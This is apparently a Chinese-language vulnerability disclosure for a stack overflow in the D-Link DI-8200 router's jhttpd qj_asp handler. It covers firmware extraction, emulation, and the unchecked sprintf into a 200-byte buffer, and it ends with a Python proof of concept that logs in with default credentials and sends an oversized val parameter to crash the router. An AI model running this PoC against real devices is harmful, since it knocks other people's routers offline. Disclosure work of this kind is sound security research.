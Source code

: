 # D-Link DI-8200栈溢出漏洞

## 固件提取与模拟

获取DI-8200路由器固件，使用binwalk对固件进行分析解包，提取文件系统：

```shell
binwalk -Me DI_8200-16.07.26A1.trx
```

![](./\pic\p1.png)

使用FirmAE模拟固件运行：

```shell
sudo ./run.sh -d aa ../CVE/DI_8200-16.07.26A1.trx
```

![](./\pic\p3.png)

## 漏洞分析

提取固件文件系统，在\usr\sbin\jhttpd文件的qj_asp函数中存在栈溢出漏洞：

![](./\pic\p2.png)

qj_asp函数属于jhttpd内部实现的用于处理qj.asp页面参数的函数，登录路由器后可以通过http://\<ip\>/qj.asp访问，同时通过val参数可以传入任意值。val参数传入的值会通过httpd_get_parm函数获取到，随后获取到的值将通过sprintf函数格式化赋值到栈变量v9中。

![](./\pic\p4.png)

变量v9是一个长度为200个字节的字符数组，由于val参数的值可以通过前端传入的参数进行控制且在格式化赋值时并没有对该参数变量进行检查和过滤，因此可以通过控制val参数的值使得程序造成栈溢出，从而可以造成拒绝服务甚至命令执行。

![](./\pic\p5.png)

## 漏洞验证

poc:

```python
import requests

s = requests.session()
url = "http://192.168.0.1"
headers = {
    "User-Agent": "Mozilla/5.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1"
}
data = {"user": "admin", "password": "admin"}
s.post(f"{url}/login.cgi", headers={**headers, "Content-Type": "application/x-www-form-urlencoded", "Origin": url, "Referer": f"{url}/login.html"}, data=data)
p = b'a' * 0x500
r = s.get(f"{url}/qj.asp?val={p}", headers=headers)
print(r.text)
```

执行poc之前，路由器正常访问：

![](./\pic\p6.png)

执行poc，将造成栈溢出，导致路由器崩溃，从而实现拒绝服务攻击：

![](./\pic\p7.png)

![](./\pic\p8.png)

